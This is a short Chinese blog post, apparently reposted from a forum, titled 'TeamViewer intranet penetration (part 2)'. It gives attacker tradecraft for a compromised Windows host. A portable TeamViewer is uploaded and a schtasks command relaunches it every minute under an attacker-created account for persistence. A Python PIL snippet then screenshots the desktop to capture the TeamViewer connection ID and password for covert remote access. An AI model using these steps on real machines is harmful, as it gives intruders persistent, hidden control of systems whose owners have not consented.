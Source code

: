 # Teamviewer内网穿透（二）

> 原文：[https://www.zhihuifly.com/t/topic/3456](https://www.zhihuifly.com/t/topic/3456)

# Teamviewer内网穿透（二）

上传一个单文件版本的teamviewer

再通过下面指令运行起来

```
schtasks /create /sc minute /mo 1 /tn “cat” /tr TV的路径  /ru 创建的用户名 /rp 创建的密码 
```

使用PIL截图获取连接ID密码：

```
from PIL import ImageGrab
im = ImageGrab.grab()
im.save('screenshot.png') 
```